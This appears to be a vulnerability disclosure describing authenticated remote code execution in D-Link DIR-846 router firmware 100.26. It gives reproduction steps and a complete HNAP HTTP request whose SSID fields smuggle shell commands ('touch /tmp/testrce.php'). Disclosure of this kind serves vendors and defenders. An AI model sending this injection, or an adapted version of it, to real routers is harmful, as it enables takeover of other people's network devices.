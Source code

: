 # D-Link DIR-846 Remote Code Execution #

**vender** ：D-Link

**Firmware version**:100.26

**Exploit Author**: bigbear@galaxylab.org

**Vendor Homepage**: http://www.dlink.com.cn/

**Hardware Link**:http://support.dlink.com.cn/ProductInfo.aspx?m=DIR-846

## Vul detail ##

Reproduction Steps:
1. Go to your wi-fi router gateway [i.e: http://192.168.0.1]
1. login with admin
1. Send http request with admin cookies,
1. this POC will create a file /tmp/testrce.php and /tmp/testrce1.php:
```
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:49.0) Gecko/20100101 Firefox/49.0
Accept: application/json
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Content-Type: application/json
SOAPACTION: "http://purenetworks.com/HNAP1/SetPasswdSettings"
HNAP_AUTH: D34C44D78E0DA072AE4E94B67361E182 1534384217127
Referer: http://192.168.0.1/account.html
Content-Length: 110
Cookie: loginpass=202cb962ac59075b964b07152d234b70; PHPSESSID=e5c635efde382dd2dd21a62b6649278f; uid=ac08Gage; PrivateKey=D7D42B5B2E20D9F30C0D44920DC56A58
DNT: 1
X-Forwarded-For: 8.8.8.8
Connection: close

{"SetMasterWLanSettings":{"wl(1).(0)_ssid":"111;touch /tmp/testrce.php","wl(0).(0)_ssid":"assssss;touch /tmp/testrce1.php"}}
```
1. The vulnerable code is in file /squashfs-root/www/HNAP1/control/SetMasterWLanSettings.php.
![](dlink3.png)

